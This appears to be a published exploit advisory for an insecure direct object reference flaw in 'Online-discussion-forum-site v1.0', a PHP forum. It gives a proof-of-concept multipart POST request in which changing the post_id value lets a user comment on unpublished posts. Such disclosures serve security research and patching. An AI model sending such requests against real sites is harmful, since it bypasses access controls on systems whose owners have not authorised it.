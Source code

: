 # Exploit Title: Online-discussion-forum-site v1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Online-discussion-forum-site v1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to create comment to post that is unpublished(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /odfs/classes/Master.php?f=save_comment HTTP/1.1
...

------WebKitFormBoundaryH4AwLITcdSV3yGpY
Content-Disposition: form-data; name="post_id"

5(CHANGE HERE)
------WebKitFormBoundaryH4AwLITcdSV3yGpY
Content-Disposition: form-data; name="comment"

<p>hi user1</p>
------WebKitFormBoundaryH4AwLITcdSV3yGpY
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryH4AwLITcdSV3yGpY--
```